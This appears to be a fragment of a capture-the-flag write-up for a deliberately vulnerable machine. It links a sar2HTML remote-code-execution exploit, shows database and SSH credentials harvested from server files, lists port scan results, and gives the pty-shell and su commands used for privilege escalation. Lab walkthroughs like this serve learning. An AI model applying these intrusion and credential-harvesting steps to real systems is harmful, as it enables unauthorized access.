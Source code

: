 ### exploiting sar2HTMLshell
- https://raw.githubusercontent.com/AssassinUKG/sar2HTML/main/sar2HTMLshell.py
- got a shell!

### searching in the server
- _/var/www/configuration.php_
```
public $user = 'joomlauser';
public $password = 'passwordz';
```

### searching in server
- log.txt
```
$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from $IP port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest $IP port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```


## 10000
```
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-server-header: MiniServ/1.930
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## 55007
```
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3abe1392d95eb135516d6ce8df911e5 (RSA)
|   256 aedef2bbb78a00702074567625c0df38 (ECDSA)
|_  256 252583f2a7758aa046b2127004685ccb (ED25519)
```

# PrivEsc

## Using creds of _log.txt_ file

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Vulnerable:/var/www/html/joomla/_test$ su basterd
su basterd
Password: superduperp@$$

basterd@Vulnerable:/var/www/html/joomla/_test$
```
